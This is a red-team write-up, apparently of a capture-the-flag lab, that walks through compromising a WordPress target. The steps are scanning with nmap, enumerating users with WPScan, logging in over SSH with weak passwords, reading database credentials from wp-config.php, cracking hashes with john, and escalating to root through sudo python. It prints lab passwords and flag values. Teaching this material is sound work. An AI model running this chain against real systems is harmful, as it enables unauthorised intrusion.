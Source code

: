 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
  # netdiscover -r 192.168.1.90
```

![Netdiscover Output](Images/netdiscover.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.110
```

![Nmap Output](Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp: SSH
  - Port 80/tcp: HTTP
  - Port 111/tcp: RPCbind
  - Port 139/tcp: netbios-ssn
  - Port 445/tcp: netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress database)
  - Misconfiguration of User Privileges/Privilege Escalation

---

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

#### Flag 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**:
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `wpscan --url 192.168.1.110/wordpress --enumerate u`

```bash
  # wpscan --url 192.168.1.110/wordpress --enumerate u
```

![Wpscan Output 1](Images/wpscan1.png)
![Wpscan Output 2](Images/wpscan2.png)

  - Used SSH to gain a user shell.
    - **Command**: `ssh michael@192.168.1.110`
    - **Password**: `michael`

```bash
  # ssh michael@192.168.1.110
```

![SSH Output](Images/ssh1.png)

  - Searched directories for for service.html to find Flag 1.
    - **Command**: `cat var/www/html/service.html`

```bash
  # cat var/www/html/service.html
```

  - Screenshot of Flag 1:

![Flag 1](Images/flag1.png)

---

#### Flag 2

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `cat var/www/flag2.txt`

```bash
  # cat var/www/flag2.txt
```

  - Screenshot of Flag 2:

![Flag 2](Images/flag2.png)

---

#### Flag 3

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Continued using user shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.

  - Finding the MySQL database password:
    - **Command**: `cd /var/www/html/wordpress/`
    - **Command**: `nano wp-config.php`

```bash
  # nano wp-config.php
```

![MySQL DB Password](Images/MySQL.png)

  - Used the credentials to log into MySQL and dump WordPress user password hashes.
    - **DB_NAME**:	`wordpress`
    - **DB_USER**:	`root`
    - **DB_PASSWORD**:	`R@v3nSecurity`
    - **Command**: `mysql -u root -pR@v3nSecurity -D wordpress`

```bash
  # mysql -u root -pR@v3nSecurity -D wordpress
```

![MySQL DB Login](Images/MySQL_login.png)

  - Searched MySQL database for Flag 3 and WordPress user password hashes.
    - Flag 3 found in `wp_posts`.
    - Password hashes found in `wp_users`.
    - **Command**: `show tables;`
    - **Command**: `select * from wp_posts;`
    - **Command**: `select * from wp_users;`

  - Screenshot of Flag 3:

![Flag 3](Images/flag3.png)

  - Screenshot of WordPress user password hashes:

![Password Hashes](Images/pwdhashes.png)

---

#### Flag 4

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Used john to crack the password hash obtained from MySQL database, secured new user shell as Steven, escalated to root.

  - Cracking the password hash with john.
    - Copied password hash from MySQL into `~/Desktop/hash.txt` and cracked with john to discover Steven’s password is `pink84`.
    - **Command**: `cd ~/Desktop`
    - **Command**: `john hash.txt`

![John Output](Images/john.png)

  - Secure a user shell as the user whose password you cracked.
    - **Command**: `ssh steven@192.168.1.110`
    - **Password**: `pink84`

![SSH Output](Images/ssh2.png)

  - Escalating to root:
    - **Command**: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`

```bash
  # sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

  - Searched root directory for Flag 4.
    - **Command**: `cd /root/`
    - **Command**: `ls`
    - **Command**: `cat flag4.txt`

  - Screenshot of Flag 4:

![Flag 4](Images/flag4.png)